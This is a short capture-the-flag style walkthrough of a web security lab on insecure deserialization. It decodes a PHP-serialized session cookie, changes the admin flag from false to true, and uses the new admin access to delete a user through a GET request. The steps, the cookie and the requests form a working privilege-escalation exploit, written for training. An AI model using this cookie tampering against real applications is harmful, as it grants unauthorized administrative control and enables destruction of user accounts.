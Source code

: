 # Modifying serialized objects

**1. Make request to**
```http
GET /my-account
```
</br>

**2. Edit the session cookie by decoding it in the inspector tab**
`session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d`

</br>

**3. The decoded session cookie:**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```
</br>

**ATTN!**
```
Take note: the cookie is a serialized PHP object.
The `admin` attribute contains `b:0`, indicating the boolean value `false.`
Change value of `admin` attribute to `b:1`, and click "apply changes"
```
</br>

**4. The edited session cookie:**
```php
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}
```
</br>

**5. Then make request to `GET /admin`
And you can delete carlos from there.**
```http
GET /admin/delete?username=carlos
```

